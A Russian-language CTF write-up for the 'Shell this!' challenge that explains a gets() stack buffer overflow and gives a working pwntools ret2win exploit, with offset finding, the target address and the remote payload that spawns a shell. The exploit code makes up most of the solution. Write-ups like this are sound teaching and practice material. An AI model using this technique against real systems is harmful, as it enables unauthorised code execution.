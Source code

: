 # Shell this! (100 points, 340 solves)

> Somebody told me that this program is vulnerable to something called remote code execution?
>
> I'm not entirely sure what that is, but could you please figure it out for me?
>
> nc chal.duc.tf 30002

Для этого задания авторы расщедрились и помимо бинаря [shellthis](./shellthis) скинули исходник 
[shellthis.c](./shellthis.c):
```c
#include <stdio.h>
#include <unistd.h>

__attribute__((constructor))
void setup() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
}

void get_shell() {
    execve("/bin/sh", NULL, NULL);
}

void vuln() {
    char name[40];

    printf("Please tell me your name: ");
    gets(name);
}

int main(void) {
    printf("Welcome! Can you figure out how to get this program to give you a shell?\n");
    vuln();
    printf("Unfortunately, you did not win. Please try again another time!\n");
}
```

Ого, функция `get_shell()` даёт нам shell! Жаль, что она нигде не вызывается... Так, функция `vuln()`
своим названием подсказывает, что смотреть надо в неё. И действительно, там есть вызов `gets()`. Для тех, кто
не знает:
```shell script
$ man 3 gets
DESCRIPTION
       Never use this function.

       gets()  reads  a  line from stdin into the buffer pointed to by s until either a terminating newline or EOF, 
       which it replaces with a null byte ('\0').  No check for buffer overrun is performed (see
       BUGS below).
...
BUGS
       Never use gets().  Because it is impossible to tell without knowing the data in advance how many characters 
       gets() will read, and because gets() will continue to store characters past the end of the
       buffer, it is extremely dangerous to use.  It has been used to break computer security.  Use fgets() instead.

       For more information, see CWE-242 (aka "Use of Inherently Dangerous Function") at http://cwe.mitre.org/data/definitions/242.html
```

Получается, у нас тут стандартное переполнение буфера (buffer overflow). Я не буду вдаваться в подробности о том, что
это такое и как оно работает. Советую почитать примеры из Интернета или посмотреть серию роликов от [LiveOverflow](https://www.youtube.com/watch?v=T03idxny9jE&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=13).
Если кратко, нам нужно найти такое количество символов, которое подведёт к перенаправлению исполнения туда, куда нам надо.
На заре своей карьеры я всё это делал руками с gdb, но это довольно долго (но полезно для понимания происходящего!). Во
время реальных соревнований стоит воспользоваться [pwntools](https://github.com/Gallopsled/pwntools).

### Шаг 1 - найти нужное количество символов для переполнения

Делается это просто:
```python
from pwn import *
io_local = process('./shellthis')

io_local.recv()
io_local.sendline(cyclic(100, n=8))
io_local.wait()
core = Core('./core')
offset = cyclic_find(core.fault_addr, n=8)
print(offset)
```

Работает это примерно так - в качестве входной строки закидывается строка определённого вида. Причём длина настолько 
большая, что программа просто крашится и генерирует core-файл. Далее из него вычитывается адрес, на котором
произошёл краш, и находится оффсет этой последовательности в исходной строке.

### Шаг 2 - находим адрес, куда надо перенаправить программу

Что же, это лёгкий пример, и у нас прямо тут есть функция `get_shell()`. Нам просто нужно достать адрес этой функции и
передать его. Делается это так:
```python
e = ELF('./shellthis')
win = e.symbols['get_shell']
```

### Шаг 3 - отправляем наш вредоностный инпут

Можно сразу направить это всё на сервер, флаг всё же там находится:
```python
io = remote('chal.duc.tf', 30002)

data = io.recv()  # Считываем приветствие
p = offset * b'A'  # Переполняем буфер
p += p64(win)  # И добавляем адрес функции get_shell()
io.sendline(p)  # Отправляем
io.interactive()  # Переходим в интерактивный режим
```

Результат:
```shell script
$ ls
flag.txt shellthis
$ cat flag.txt
DUCTF{h0w_d1d_you_c4LL_That_funCT10n?!?!?}
```

Полный код [эксплоита](./shell_this.py).